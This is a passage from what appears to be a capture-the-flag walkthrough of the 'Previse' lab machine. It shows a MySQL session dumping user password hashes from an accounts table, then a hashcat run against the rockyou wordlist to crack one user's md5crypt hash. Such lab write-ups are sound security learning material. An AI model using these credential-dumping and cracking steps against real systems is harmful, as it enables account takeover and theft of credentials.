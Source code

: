 ```shell

Database changed
mysql> show tables
    -> ;
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts          |
| files             |
+-------------------+
2 rows in set (0.00 sec)

mysql> describe accounts;
+------------+--------------+------+-----+-------------------+----------------+
| Field      | Type         | Null | Key | Default           | Extra          |
+------------+--------------+------+-----+-------------------+----------------+
| id         | int(11)      | NO   | PRI | NULL              | auto_increment |
| username   | varchar(50)  | NO   | UNI | NULL              |                |
| password   | varchar(255) | NO   |     | NULL              |                |
| created_at | datetime     | YES  |     | CURRENT_TIMESTAMP |                |
+------------+--------------+------+-----+-------------------+----------------+
4 rows in set (0.00 sec)

mysql> select username,password from accounts;      
+----------+------------------------------------+
| username | password                           |
+----------+------------------------------------+
| m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. |
| b0ddd    | $1$🧂llol$04L/OghOADV.ufho3gKfY. |
+----------+------------------------------------+
2 rows in set (0.00 sec)

mysql> 
```
we know the password for our account, let's try now to crack the `m55crypt` hash for the user `m4lwhere`.  
```shell
[root@kali Previse ]$ hashcat hash.txt --wordlist /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.5) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 3.0+debian  Linux, None+Asserts, RELOC, LLVM 13.0.1, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-1038NG7 CPU @ 2.00GHz, 2182/4428 MB (1024 MB allocatable), 2MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

500 | md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5) | Operating System

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

INFO: All hashes found in potfile! Use --show to display them.

Started: Thu Jul  7 20:13:55 2022
Stopped: Thu Jul  7 20:13:58 2022
[root@kali Previse ]$ hashcat hash.txt --wordlist /usr/share/wordlists/rockyou.txt  --show
```